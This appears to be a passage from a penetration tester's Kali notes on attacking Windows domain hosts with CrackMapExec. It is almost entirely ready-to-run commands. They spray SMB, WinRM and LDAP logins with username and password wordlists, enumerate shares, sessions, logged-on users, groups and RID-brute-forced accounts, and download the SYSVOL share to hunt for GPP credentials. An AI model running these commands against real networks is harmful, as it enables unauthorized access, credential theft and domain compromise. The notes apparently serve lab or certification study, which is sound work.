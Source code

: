 Use a user.txt and password.txt wordlists.

```bash - kali
crackmapexec smb 192.168.1.50-192.168.1.55 -u user.txt -p password.txt --continue-on-success
```

```bash - kali
crackmapexec winrm 192.168.1.50-192.168.1.55 -u user.txt -p password.txt --continue-on-success
```

```bash - kali
crackmapexec ldap 192.168.1.50-192.168.1.55 -u user.txt -p password.txt --continue-on-success
```

#### 12 SwisArmy CrackMapExec Enum 1 1

```bash - kali
crackmapexec smb 192.168.1.50-192.168.1.55 -u $USER -p $PASSWORD --shares
```

Look for READ / WRITE privs.
Look for READ on SYSVOL.

[[Port 139 445 - SMB ~#using smbclient to download all files]]

Download all the files in SYSVOL share.

[[6._Abusing GPP 1]]
[[7._Abusing GPP 2]]

```bash - kali
crackmapexec smb 192.168.1.50-192.168.1.55 -u $USER -p $PASSWORD --sessions
```

```bash - kali
crackmapexec smb 192.168.1.50-192.168.1.55 -u $USER -p $PASSWORD --disks
```

```bash - kali
crackmapexec smb 192.168.1.50-192.168.1.55 -u $USER -p $PASSWORD --loggedon-users
```
Check if any loggedon users are Domian Admins from our LDAPDomianDump finding.

```bash - kali
crackmapexec smb 192.168.1.50-192.168.1.55 -u $USER -p $PASSWORD --users
```

#### 13 SwisArmy CrackMapExec Enum 1 2
```bash - kali
crackmapexec smb 192.168.1.50-192.168.1.55 -u $USER -p $PASSWORD --rid-brute
```

![[Pasted image 20220412143310.png]]

```bash - kali
crackmapexec smb 192.168.1.50-192.168.1.55 -u $USER -p $PASSWORD --groups
```

```bash - kali
crackmapexec smb 192.168.1.50-192.168.1.55 -u $USER -p $PASSWORD --local-groups
```
